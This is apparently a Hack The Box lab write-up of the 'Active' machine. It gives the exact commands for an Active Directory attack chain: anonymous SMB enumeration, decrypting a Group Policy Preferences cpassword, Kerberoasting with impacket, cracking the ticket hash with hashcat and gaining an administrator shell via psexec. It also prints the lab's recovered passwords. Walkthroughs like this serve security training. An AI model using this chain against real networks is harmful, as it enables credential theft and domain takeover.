# Active - HTB Writeup

## Intro

In this writeup we will take a look at the easy HTB Machine "Active".

This machine showcases a simple exploit chain in an Active Directory Environment. The process encompasses abusing GPP password exposure and Kerberoasting which makes it a great starting point for Windows/AD hacking.

## Information Gathering

Let's start by adding active.htb and the target IP to our /etc/hosts file.

An initial nmap scan against the target revealed several open ports:

### Initial Nmap Scan

<details>
  <summary>Nmap initial Command</summary>
  <p>
   
   ```
   nmap -p- --min-rate 10000 -oA nmap/inital <IP>
   ```

  </p>
</details>

<br>

  

<br>

Many of them identify their respective services already, however, let's run a more detailed scan only on the open ports using -sC, -sV and --reason:

### Detailed Nmap Scan

<details>
  <summary>Nmap detailed Command</summary>
  <p>
   
   ```
   nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49162,49166,49168 -sC -sV --reason -oA nmap/detailed <IP>
   ```

  </p>
</details>

<br>



<br>

Right away, we can see that an SMB service is listening on port 445. 

A quick scan using smbmap shows that we can access the share "Replication" without providing credentials:


### SMBMAP Scan

<details>
  <summary>smbmap Command</summary>
  <p>
   
   ```
   smbmap -H <IP>
   ```

  </p>
</details>

<br>



<br>

Using smbclient, we can access the share right away, and after lots of digging through folders, we find a file called Groups.xml.

<details>
  <summary>smbclient Command</summary>
  <p>
   
   ```
   smbclient -N //<IP>/Replication
   ```

  </p>
</details>


<details>
  <summary>File Path inside smbclient</summary>
  <p>
   
   ```
   cd \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\
   ```

  </p>
</details>

<br>

Let's quickly download it in order to inspect it further on our attack host.

### SMBCLIENT



<br>

## Vulnerability Assessment

The file reveals what looks like a password hash:


<details>
  <summary>Hash</summary>
  <p>
   
   ```
   edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
   ```

  </p>
</details>

<br>



<br>

The hash is a cpassword, an encrypted password field used in legacy Windows Group Policy Preferences. 

The GPP cpassword is linked to the vulnerability MS14-025 / CVE-2014-1812, which allowed easy decryption of such passwords, because Microsoft published the 32-byte AES key.

<br>

A quick search leads to a tool called gpp-decrypt.

## Exploitation

The hash decrypted cleanly and revealed the password to the SVC_TGS account.

<details>
  <summary>Decryption Command</summary>
  <p>
   
   ```
   gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
   ```

  </p>
</details>

<br>



<br>

Let's find out if this user has more permissions for smb shares.

Another smbmap scan shows that we can now also access the Users share:


<br>


### SMBMAP Authenticated

<details>
  <summary>smbmap Command</summary>
  <p>
   
   ```
   smbmap -u SVC_TGS -p GPPstillStandingStrong2k18 -H <IP>
   ```

  </p>
</details>

<br>



<br>

After connecting and authenticating with smbclient, we can find the user flag on SVC_TGS's desktop.

### SMBCLIENT Authenticated

<details>
  <summary>smbclient Command</summary>
  <p>
   
   ```
   smbclient --user=SVC_TGS //<IP>/Users
   ```

  </p>
</details>

<details>
  <summary>Path to Desktop</summary>
  <p>
   
   ```
   cd \SVC_TGS\Desktop\
   ```

  </p>
</details>




## Privilege Escalation

Having valid user credentials, we can try a kerberoasting attack.

Let's use the impacket script impacket-GetUserSPNs to see if we can get a hash.

### Kerberoasting


<details>
  <summary>Impacket-GetUserSPNs command</summary>
  <p>
   
   ```
   impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request -outputfile kerberoast.hash
   ```

  </p>

</details>

<br>



<br>

We got a hash!

This worked by requesting a TGS (Ticket granting Service) for a service that is linked to the Administrator account, which we could identify because the Administrator had an SPN (Service Principal Name) set. The domain controller creates a ticket, which is encrypted with the service account's (Administrator's) password.  

Let's try and crack the hash using hashcat.

### Cracking

Tip: on a HTB Pwnbox, the popular wordlist rockyou.txt is often zipped. If you get a file not found error when running the command below, try:

```
cd /usr/share/wordlists/ && sudo 7z e rockyou.txt.gz && cd
```

<details>
  <summary>Hashcat Command</summary>
  <p>
   
   ```
   hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt
   ```

  </p>

</details>

<br>



<br>

It cracked successfully! 

We were able to retrieve a Password for Administrator.

Now we can use impacket-psexec to get an interactive shell on the machine.

### Logging in with psexec


<details>
  <summary>impacket-psexec Command</summary>
  <p>
   
   ```
   impacket-psexec active.htb/Administrator:Ticketmaster1968@<IP>
   ```

  </p>

</details>

<br>



<br>

Since this is a cmd instance we can't use commands like "ls" or "cat", instead we must use "dir" to list directory content and "type" to read file content. 

This way we can navigate to the Administrators home directory and read root.txt

